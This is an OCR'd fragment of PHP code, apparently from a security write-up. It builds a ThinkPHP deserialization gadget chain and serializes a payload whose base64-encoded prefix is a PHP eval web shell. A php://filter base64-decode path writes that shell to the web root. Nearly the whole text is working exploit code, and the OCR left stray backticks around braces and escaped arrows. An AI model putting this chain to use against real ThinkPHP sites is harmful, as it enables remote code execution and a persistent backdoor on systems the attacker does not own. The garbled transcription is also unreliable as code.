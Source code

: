 ```
        'warning',
        'getTable',
        'where'
    ];
    private $handle;
    public function __construct()
    `{`
        $this-&gt;handle = (new \think\session\driver\Memcache);
    `}`
`}`
namespace think\session\driver;
class Memcache
`{`
    protected $handler;
    public function __construct()
    `{`
        $this-&gt;handler = (new \think\cache\driver\Memcached);
    `}`
`}`


namespace think\cache\driver;

use think\Process;

class Memcached
`{`
    protected $tag;
    protected $options;
    protected $handler;

    public function __construct()
    `{`
        $this-&gt;tag = true;
        $this-&gt;options = [
            'expire'   =&gt; 0,
            'prefix'   =&gt; 'PD9waHAgZXZhbCgkX1BPU1RbJ3pjeTIwMTgnXSk7ID8+',
        ];
        $this-&gt;handler = (new File);
    `}`
`}`

class File
`{`
    protected $tag;
    protected $options;
    public function __construct()
    `{`
        $this-&gt;tag = false;
        $this-&gt;options = [
            'expire'        =&gt; 3600,
            'cache_subdir'  =&gt; false,
            'prefix'        =&gt; '',
            'data_compress' =&gt; false,
            'path'          =&gt; 'php://filter/convert.base64-decode/resource=./',
        ];
    `}`
`}`
use think;
$a=new Process();
echo urlencode(serialize($a));
```
